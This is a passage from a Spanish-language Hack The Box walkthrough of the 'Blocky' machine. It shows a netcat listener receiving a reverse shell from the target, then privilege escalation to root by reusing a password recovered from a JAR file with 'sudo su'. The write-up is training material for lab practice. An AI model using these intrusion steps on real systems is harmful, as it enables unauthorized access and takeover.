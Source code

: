 Ya solamente observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.37] 37294
bash: cannot set terminal process group (1460): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html/wp-content/themes/twentyseventeen$ whoami
whoami
www-data
www-data@Blocky:/var/www/html/wp-content/themes/twentyseventeen$
```
Y listo, una forma más de ganar acceso que ya habiamos visto antes, aplicada en esta máquina.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Post" style="text-align:center;">Post Explotación</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="Enum">Enumeración de Máquina y Escalando Privilegios</h2>

Lo primero como siempre, vamos a ver que privilegios tenemos:
```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Estamos en el grupo **SUDO**, vaya y si recordamos en el archivo **BlockyCore.jar**, la contraseña que usamos es la de Root, eso quiere decir que, si la volvemos a usar, seremos Root ¿no? Probemoslo:
```bash
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
```

Changos, no pues si estuvo muy fácil, busquemos la flag del Root para terminal la máquina:
```bash
root@Blocky:/home/notch# cd /root
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt
```
¡Listo! Que cosa más fácil.


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>

